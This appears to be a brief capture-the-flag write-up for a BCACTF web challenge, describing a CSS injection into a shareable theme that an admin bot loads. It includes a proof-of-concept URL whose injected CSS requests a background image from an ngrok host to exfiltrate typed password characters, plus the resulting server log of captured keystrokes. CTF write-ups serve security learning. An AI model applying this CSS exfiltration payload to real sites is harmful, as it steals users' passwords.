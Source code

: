 ## Notes

- Themes you can share with your friends
- Must XSS inject via /submit to make admin visit
- Bot actions:
  1. Type in password and click submit
  2. Flag will be at `document.querySelector(".d")` for exfil
- The bot slowly types in the password pin and clicks submit, it then waits 1s
  before closing
- Our script needs to poll and keep checking for the flag to get it since it won't
  be there at the beginning.
- Vulns
  - CSS Injection
- Password is 16 chars


POC

```
http://webp.bcactf.com:49153/#{%22bg%22:%22gainsboro;}%20.d%20{background:url(http://7a795cc29696.ngrok.io/exf)}%22,%22fg%22:%22%22,%22bbg%22:%22%22,%22bfg%22:%22%22}
```

Server Keylog 
```
127.0.0.1 - - [10/Jun/2021 22:02:43] "GET /A HTTP/1.1" 404 -
127.0.0.1 - - [10/Jun/2021 22:02:43] "GET /D HTTP/1.1" 404 -
127.0.0.1 - - [10/Jun/2021 22:02:43] "GET /1 HTTP/1.1" 404 -
127.0.0.1 - - [10/Jun/2021 22:02:44] "GET /4 HTTP/1.1" 404 -
127.0.0.1 - - [10/Jun/2021 22:02:44] "GET /B HTTP/1.1" 404 -
127.0.0.1 - - [10/Jun/2021 22:02:44] "GET /F HTTP/1.1" 404 -
127.0.0.1 - - [10/Jun/2021 22:02:44] "GET /6 HTTP/1.1" 404 -
127.0.0.1 - - [10/Jun/2021 22:02:44] "GET /5 HTTP/1.1" 404 -
127.0.0.1 - - [10/Jun/2021 22:02:44] "GET /E HTTP/1.1" 404 -
127.0.0.1 - - [10/Jun/2021 22:02:44] "GET /C HTTP/1.1" 404 -
127.0.0.1 - - [10/Jun/2021 22:02:44] "GET /0 HTTP/1.1" 404 -
127.0.0.1 - - [10/Jun/2021 22:02:44] "GET /9 HTTP/1.1" 404 -
127.0.0.1 - - [10/Jun/2021 22:02:44] "GET /3 HTTP/1.1" 404 -
127.0.0.1 - - [10/Jun/2021 22:02:44] "GET /7 HTTP/1.1" 404 -
127.0.0.1 - - [10/Jun/2021 22:02:44] "GET /2 HTTP/1.1" 404 -
127.0.0.1 - - [10/Jun/2021 22:02:45] "GET /8 HTTP/1.1" 404 -
```
